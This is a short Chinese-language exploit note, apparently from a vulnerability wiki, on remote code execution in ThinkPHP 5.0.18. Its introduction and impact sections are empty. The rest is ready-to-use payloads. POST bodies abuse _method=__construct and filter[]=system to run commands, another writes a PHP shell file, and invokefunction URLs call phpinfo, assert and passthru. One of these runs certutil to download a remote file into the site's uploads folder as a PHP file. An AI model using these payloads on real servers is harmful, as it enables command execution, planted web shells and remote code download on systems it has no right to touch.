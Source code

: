 ```yaml
---
title: Thinkphp 5.0.18
id: zhfly3153
---
```


# Thinkphp 5.0.18

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
POST `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

### 1、windows

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1 
```

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo() 
```

### 2、使用certutil

```
http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=passthru&vars[1][0]=cmd /c certutil -urlcache -split -f https://www.hack.com/xxx.js uploads/1.php 
```

由于根目录没写权限，所以写到uploads